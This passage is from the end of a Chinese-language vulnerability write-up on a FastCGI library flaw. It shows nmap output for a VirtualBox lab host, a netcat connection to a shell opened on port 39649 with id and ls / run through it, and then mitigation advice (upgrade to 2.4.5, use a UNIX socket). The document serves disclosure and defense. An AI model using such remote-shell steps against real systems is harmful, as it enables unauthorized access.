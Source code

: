 ```
39649/tcp open  unknown
MAC Address: 08:00:27:E9:86:0A (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.47 seconds
➜  article git:(master) ✗ nc 192.168.106.9 39649
id
uid=1000(osboxes) gid=1000(osboxes) groups=1000(osboxes),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),112(bluetooth)
ls /
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old

```  
## 缓解问题  
  
该漏洞被报告为一个 Github issue。已经与维护人员进行了讨论，并提交了一个 pull request 来添加额外的检查并修复该错误。  
  
更新到 2.4.5 版本将保护您免受此漏洞的侵害。如果您使用软件包安装该库，请确保它们与 2.4.5 及更高版本同步。  
  
我们还建议通过将其声明为 UNIX 套接字来限制对 FastCGI 套接字的潜在远程访问。  
## 结论  
  
FastCGI 尽管自 1996 年创建以来漏洞记录相对较低，并且经常用于嵌入式技术，但并非没有实现问题。  
  
然而，这个缺陷很容易纠正，并且良好的实施实践可能使一些服务器在漏洞发布之前就能够保护自己。  
  
与此同时，集成规则以确保至少正确配置您的 Web 服务器以确保最大安全性可能是一个好主意。  
  
  
